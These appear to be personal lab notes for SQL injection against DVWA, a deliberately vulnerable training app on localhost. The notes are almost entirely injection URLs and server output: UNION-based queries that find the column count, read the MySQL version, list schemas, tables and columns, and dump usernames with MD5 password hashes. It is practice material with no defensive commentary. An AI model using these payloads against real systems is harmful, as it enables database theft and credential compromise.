  http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1'+true%23&Submit=Submit --> return true
 
http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1'+false%23&Submit=Submit --> return false
 
http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1'+order+by+2%23&Submit=Submit
 
http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1'+order+by+3%23&Submit=Submit   -> return error
 
hence two columns select statement
 
http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1'+union+select+1,1%23&Submit=Submit
 
http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1'+union+select+'canary','bob'%23&Submit=Submit  -> return data
 
 
http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1'+union+select+@@version,'bob'%23&Submit=Submit 
        <pre>ID: 1' union select @@version,'bob'#<br />First name: admin<br />Surname: admin</pre><pre>ID: 1' union select @@version,'bob'#<br />First name: 5.7.28-0ubuntu0.19.04.2<br />Surname: bob</pre>
 
 
now let's extract data:
 
to show current database:
http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1'+union+select+database(),1+from+information_schema.schemata%23&Submit=Submit
 
<pre>ID: 1' union select database(),1 from information_schema.schemata#<br />First name: admin<br />Surname: admin</pre><pre>ID: 1' union select database(),1 from information_schema.schemata#<br />First name: dvwa<br />Surname: 1</pre>
 
to show current database:
http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1'+union+select+schema_name,1+from+information_schema.schemata%23&Submit=Submit
 
<pre>ID: 1' union select schema_name,1 from information_schema.schemata#<br />First name: admin<br />Surname: admin</pre><pre>ID: 1' union select schema_name,1 from information_schema.schemata#<br />First name: information_schema<br />Surname: 1</pre><pre>ID: 1' union select schema_name,1 from information_schema.schemata#<br />First name: cmsms<br />Surname: 1</pre><pre>ID: 1' union select schema_name,1 from information_schema.schemata#<br />First name: dvwa<br />Surname: 1</pre><pre>ID: 1' union select schema_name,1 from information_schema.schemata#<br />First name: mysql<br />Surname: 1</pre><pre>ID: 1' union select schema_name,1 from information_schema.schemata#<br />First name: performance_schema<br />Surname: 1</pre><pre>ID: 1' union select schema_name,1 from information_schema.schemata#<br />First name: sys<br />Surname: 1</pre>
 
to show all tables in database dvwa:
1' union select null,table_name from information_schema.tables where table_schema='dvwa' #
http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1%27+union+select+null,table_name+from+information_schema.tables+where+table_schema=%27dvwa%27+%23&Submit=Submit
 
ID: 1' union select null,table_name from information_schema.tables where table_schema='dvwa' #
First name: 
Surname: guestbook
 
ID: 1' union select null,table_name from information_schema.tables where table_schema='dvwa' #
First name: 
Surname: users
 
show all columns in database table name: users
column_name
table_name = 'users'
table_schema = 'dvwa'
 
1' union select null,column_name from information_schema.columns where table_schema='dvwa' and table_name='users'#
ID: 1' union select null,column_name from information_schema.columns where table_schema='dvwa' and table_name='users'#
First name: admin
Surname: admin
 
ID: 1' union select null,column_name from information_schema.columns where table_schema='dvwa' and table_name='users'#
First name: 
Surname: user_id
 
ID: 1' union select null,column_name from information_schema.columns where table_schema='dvwa' and table_name='users'#
First name: 
Surname: first_name
 
ID: 1' union select null,column_name from information_schema.columns where table_schema='dvwa' and table_name='users'#
First name: 
Surname: last_name
 
ID: 1' union select null,column_name from information_schema.columns where table_schema='dvwa' and table_name='users'#
First name: 
Surname: user
 
ID: 1' union select null,column_name from information_schema.columns where table_schema='dvwa' and table_name='users'#
First name: 
Surname: password
 
ID: 1' union select null,column_name from information_schema.columns where table_schema='dvwa' and table_name='users'#
First name: 
Surname: avatar
 
ID: 1' union select null,column_name from information_schema.columns where table_schema='dvwa' and table_name='users'#
First name: 
Surname: last_login
 
ID: 1' union select null,column_name from information_schema.columns where table_schema='dvwa' and table_name='users'#
First name: 
Surname: failed_login
 
 
to extract username,cred:
ID: 1' union select user,password from dvwa.users#
ID: 1' union select user,password from dvwa.users#
First name: admin
Surname: admin
 
ID: 1' union select user,password from dvwa.users#
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
 
ID: 1' union select user,password from dvwa.users#
First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03
 
ID: 1' union select user,password from dvwa.users#
First name: 1337
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b
 
ID: 1' union select user,password from dvwa.users#
First name: pablo
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7
 
ID: 1' union select user,password from dvwa.users#
First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
 
 
 
 
 
 
 
 
 
 
 
 
 

